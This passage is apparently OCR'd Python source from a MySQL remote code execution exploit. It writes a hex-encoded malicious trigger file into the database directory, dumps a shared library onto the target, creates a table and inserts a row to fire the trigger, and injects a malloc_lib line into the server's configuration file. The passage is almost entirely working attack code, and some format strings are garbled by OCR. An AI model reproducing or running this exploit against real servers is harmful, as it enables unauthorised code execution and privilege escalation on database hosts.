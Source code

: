 ```
DELIMITER ;
"""
trigger_payload="""TYPE=TRIGGERS
triggers='CREATE DEFINER=`root`@`localhost` TRIGGER appendToConf\nAFTER INSERT\n   ON `poctable` FOR EACH ROW\nBEGIN\n\n   DECLARE void varchar(550);\n   set global general_log_file=\'%s\';\n   set global general_log = on;\n   select "\n\n# 0ldSQL_MySQL_RCE_exploit got here :)\n\n[mysqld]\nmalloc_lib=\'%s\'\n\n[abyss]\n" INTO void;   \n   set global general_log = off;\n\nEND'
sql_modes=0
definers='root@localhost'
client_cs_names='utf8'
connection_cl_names='utf8_general_ci'
db_cl_names='latin1_swedish_ci'
""" % (args.TARGET_MYCNF, malloc_lib_path)
# Convert trigger into HEX to pass it to unhex() SQL function
trigger_payload_hex = "".join("`{`:02x`}`".format(ord(c)) for c in trigger_payload)
# Save trigger into a trigger file
TRG_path="/var/lib/mysql/%s/poctable.TRG" % args.TARGET_DB
info("Saving trigger payload into %s" % (TRG_path))
try:
    cursor = dbconn.cursor()
    cursor.execute("""SELECT unhex("%s") INTO DUMPFILE '%s' """ % (trigger_payload_hex, TRG_path) )
except mysql.connector.Error as err:
    errmsg("Something went wrong: `{``}`".format(err))
    shutdown(4)
# Save library into a trigger file
info("Dumping shared library into %s file on the target" % malloc_lib_path)
try:
    cursor = dbconn.cursor()
    cursor.execute("""SELECT unhex("%s") INTO DUMPFILE '%s' """ % (hookandrootlib_hex, malloc_lib_path) )
except mysql.connector.Error as err:
    errmsg("Something went wrong: `{``}`".format(err))
    shutdown(5)
# Creating table poctable so that /var/lib/mysql/pocdb/poctable.TRG trigger gets loaded by the server
info("Creating table 'poctable' so that injected 'poctable.TRG' trigger gets loaded")
try:
    cursor = dbconn.cursor()
    cursor.execute("CREATE TABLE `poctable` (line varchar(600)) ENGINE='MyISAM'"  )
except mysql.connector.Error as err:
    errmsg("Something went wrong: `{``}`".format(err))
    shutdown(6)
# Finally, execute the trigger's payload by inserting anything into `poctable`. 
# The payload will write to the mysql config file at this point.
info("Inserting data to `poctable` in order to execute the trigger and write data to the target mysql config %s" % args.TARGET_MYCNF )
try:
    cursor = dbconn.cursor()
    cursor.execute("INSERT INTO `poctable` VALUES('execute the trigger!');" )
except mysql.connector.Error as err:
    errmsg("Something went wrong: `{``}`".format(err))
    shutdown(6)
# Check on the config that was just created
info("Showing the contents of %s config to verify that our setting (malloc_lib) got injected" % args.TARGET_MYCNF )
try:
    cursor = dbconn.cursor()
    cursor.execute("SELECT load_file('%s')" % args.TARGET_MYCNF)
except mysql.connector.Error as err:
    errmsg("Something went wrong: `{``}`".format(err))
    shutdown(2)
finally:
    dbconn.close()  # Close DB connection
```
